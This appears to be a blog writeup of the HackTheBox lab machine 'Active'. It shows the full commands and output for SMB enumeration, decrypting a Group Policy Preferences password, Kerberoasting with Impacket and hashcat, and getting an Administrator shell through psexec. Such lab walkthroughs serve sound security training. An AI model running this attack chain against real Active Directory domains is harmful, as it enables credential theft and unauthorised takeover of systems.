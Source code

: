 ```yaml
---
layout: post
title: "Active"
categories: HTB-Active
---
```


![active](/assets/img/active/active1.png)


Active is a box from TJNull's OSCP list, its one of the HTB 'retired' list judged
 a bit more challenging than the OSCP but good practice.
It's a good introduction to Active Directories, and making use of the Impacket toolbox.

As always, nmap first...


<h3>Nmap</h3>
`nmap -sV -Pn -p- 10.10.10.100 |tee -a act.txt`

```

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-01 23:25:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


```
<hr width="250" size="6">



<h3>SMB Enumeration</h3>

Enum4linux, is a handy smb enumeration tool, the results here give us a springboard for further enumeration.

`enum4linux 10.10.10.100`

```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available

```

More interesting information is found...

```

//10.10.10.100/Replication      Mapping: OK, Listing: OK

```


With some shares listed, we can use smbmap and smbclient to invstigate.

`smbmap -H 10.10.10.100` gives us a little more...

![smbmap](/assets/img/active/active-smbmap1.png)

We have the domain name confirmed as `active.htb` and so update the /etc/hosts file accordingly.

Smbclient is a good tool for manually enumerating the server, lets have a look at the Replication share...

`smbclient //10.10.10.100/Replication`

![smbclient1](/assets/img/active/active-smbclient1.png)


Further digging leads to a file Groups.xml which we can retrieve with smbclient.

![smbclient-groupsxml](/assets/img/active/active-smbclient-groupsxml.png)

Groups.xml gives us some credentials

```

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```

```

userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

```

It looks like the account is not disabled, so we can try to use it, if we can decrypt it.


Its a 'group policy preferences' encryption, Kali has a handy tool to decrypt it.
gpp-decrypt works...

```

gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18

```
so...
`active.htb\SVC_TGS`
`GPPstillStandingStrong2k18`

we can try these creds in smbclient to see what else we can find...

`smbclient -U SVC_TGS //10.10.10.100/Users`

We can browse to and 'get' user.txt.

![usertxt](/assets/img/active/active-smbclient-usertxt.png)

<hr width="250" size="6">

Now I need to gain access and escalate privileges.

Fortunately Impacket has a set of tools that can help.



<h3>Impacket Tools</h3>

```

python GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

```

![getuserspn](/assets/img/active/active-getuserspn.png)

I copy the hash to textfile 'hash' and use hashcat with rockyou.txt to break it.

`hashcat -m 13100 hash.txt -a 0 /home/sassuwunnu/wordlists/rockyou.txt --force`

we get the password `Ticketmaster1968`

Before exploring other avenues of access, I quickly try the creds Administrator/Ticketmaster1968
with smbclient.

```

root@kali:~/HTB/vip/active# smbclient -UAdministrator //10.10.10.100/Users
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 15:39:20 2018
  ..                                 DR        0  Sat Jul 21 15:39:20 2018
  Administrator                       D        0  Mon Jul 16 11:14:21 2018
  All Users                         DHS        0  Tue Jul 14 06:06:44 2009
  Default                           DHR        0  Tue Jul 14 07:38:21 2009
  Default User                      DHS        0  Tue Jul 14 06:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:57:55 2009
  Public                             DR        0  Tue Jul 14 05:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 16:16:32 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \> cd administrator
smb: \administrator\> cd desktop
smb: \administrator\desktop\> ls
  .                                  DR        0  Mon Jul 30 14:50:10 2018
  ..                                 DR        0  Mon Jul 30 14:50:10 2018
  desktop.ini                       AHS      282  Mon Jul 30 14:50:10 2018
  root.txt                            A       34  Sat Jul 21 16:06:07 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \administrator\desktop\> get root.txt
getting file \administrator\desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \administrator\desktop\> exit

```

<hr width="250" size="6">

Looks like we didn't need to actually get a command shell on the target at all to retrieve the
user and root flags.


I can't just leave it there though, got to get a shell...

Again Impacket's tools make it simple in this situation.

```


python ~/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file GLVXXcRb.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UXYD on 10.10.10.100.....
[*] Starting service UXYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



:)


